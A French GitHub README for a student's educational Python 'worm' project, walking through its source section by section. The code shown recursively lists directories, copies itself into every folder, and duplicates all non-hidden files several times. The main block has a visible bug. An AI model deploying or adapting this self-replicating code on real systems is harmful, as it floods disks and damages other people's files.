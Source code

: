 ![Logo](https://upload.wikimedia.org/wikipedia/commons/thumb/f/f8/Python_logo_and_wordmark.svg/2560px-Python_logo_and_wordmark.svg.png)

**Python-vers** est un projet issu d'un cours d'1,5 jours. Il est très fortement inspiré de l'article de [Shanto Roy](https://shantoroy.com/security/write-a-worm-malware-in-python/).

> **Il s'agit d'un programme à portée éducative uniquement et ne doit être utilisé que comme tel sur du matériel appartenant à l'utilisateur.**

# Description du projet

## Etat d'avancement du projet

- [x] Fonction de saisies des paramètres & attribution de valeurs par défaut
- [x] Listing des répertoires et sous-répertoires
- [x] Réplication du virus   
- [x] Réplication des fichiers présents dans le dossier
- [ ] Découverte des chemins réseau non sécurisés (SMBv1)
- [ ] Création d'un payload stylé 


## Dépendances du projet


# Utilisation
## Prérequis
### Préparation de l'environnement de travail
Il est fortement recommandé d'exécuter ce programme dans une machine virtuelle.

- Création d'un environnement virtuel: ```python -m venv env```

- Activation de cet environnement virtuel: ```./env/Scripts/activate```

## Exécution

Le programme s'exécute en saisissant ```python virus.py```.

# Déconstruction du code

```python 
if isinstance(path, type(None)):
    self.path ="/"
else:
    self.path = path

if isinstance(listOfTargetDirs, type(None)):
    self.listOfTargetDirs = []
else:
    self.listOfTargetDirs = listOfTargetDirs

if isinstance(iteration, type (None)):
    self.iteration = 1
else:
    self.iteration = iteration

self.currentPath = os.path.realpath(__file__)
``` 
> Vérififcation de la présence ou non via ```isinstance()``` de paramètres passés par l'utilisateur lors de l'appel de la fonction, sinon attribution de valeurs par défaut

```python 
def func_listDirs(self, path):
    self.listOfTargetDirs.append(path)
    filesInCurrentDir = os.listdir(path)
    for file in filesInCurrentDir:
            if not file.startswith('.'):
                absolutePath = os.path.join(path, file)

                if os.path.isdir(absolutePath):
                    self.func_listDirs(absolutePath)
                else:
                    pass
```
> Ajout au tableau ```listOfTargetDirs``` du répertoire passé par l'utilisateur lors de l'appel de la fonction puis listing des fichiers contenus dans ce répertoire.

> Pour toute entrée dans ce répertoire, s'il nest pas caché (commence par un ```.```), on stock son chemin absolu dans la variable ```absolutePath``` et si c'est un dossier on liste son contenu, etc...

```python
def func_createWorm(self):
    for directory in self.listOfTargetDirs:
        destination = os.path.join(directory, "worm.py")
        shutil.copyfile(self.currentPath, destination)
```
> Se charge de copier le ver dans tout dossier ou sous-dossier de la destination

```python
def func_copyExistingFiles(self):
    for directory in self.listOfTargetDirs:
        filesInDir = os.listdir(directory)
        for file in filesInDir:
            absolutePath = os.path.join(directory, file)
            if not absolutePath.startswith('.') and not os.path.isdir(absolutePath):
                sourceDir = absolutePath
                for i in range(self.iteration):
                    destination = os.path.join(directory,(file + str(i)))
                    shutil.copyfile(sourceDir, destination)
```
> Fait la même chose que ```func_createWorm``` mais duplique ```x``` fois tous les autres fichiers sauf les fichiers cachés. 

```python
if __name__ == "__main__":
    currentDirectory = os.path.abspath(r"C:\Users\brill\Desktop\test")
    worm = Ver(path = currentDirectory, iteration = 8)
    worm.func_listDirs(self.path)
    worm.func_createWorm()
    worm.func_copyExistingFiles()
```
> Défini le dossier à infecter puis exécute les trois fonctions de listing récursif, de copie du ver et de duplication des fichiers. 

# Crédits
## Auteur

Par François B, étudiant à l'école IPSSI en première année de master Cybersécurité & cloud-computing

Merci à Christian A, enseignants chercheurs

Merci à [Shanto Roy (GitHub)](https://github.com/shantoroy)

## Licence

Ce programme a été créé dans un but purement éducatif et n'est soumis en tant que tel à aucune licence.
Les licences des bibliothèques et interprêteurs utilisés s'appliquent.


